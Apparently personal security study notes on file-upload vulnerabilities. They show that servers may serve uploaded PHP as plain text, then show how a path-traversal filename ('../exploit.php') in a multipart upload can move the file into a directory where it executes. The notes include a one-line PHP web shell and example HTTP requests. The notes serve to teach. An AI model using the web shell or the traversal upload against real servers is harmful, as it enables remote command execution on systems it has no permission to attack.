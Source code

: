 While it's clearly better to prevent dangerous filetypes to be uploaded in the first place, the second line of defense is to stop the server from executing any scripts that slip through the first line of filtering.

As a precaution, servers generally only run scripts whose MIME type have been whitelisted. Otherwise, they may just return some kind of an error message, or in some cases, serve the contents of the file in plain text instead:
```http
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com
```
```http
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```
While this prevent a web shell from being executed. This kind of configuration often differs between directories. A directory where user-supplied files are uploaded will likely have more stricter controls than other directories. If an attacker can exploit a [path traversal vulnerability](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FPath%20Traversal%2FIntroduction), they may still be able to upload malicious files and the server executing it.
1. Intercept the HTTP request and send it to Burp Repeater
2. Modify the request body to include a path traversal sequence:
```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="../exploit.php"
Content-Type: text/x-php

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.
```
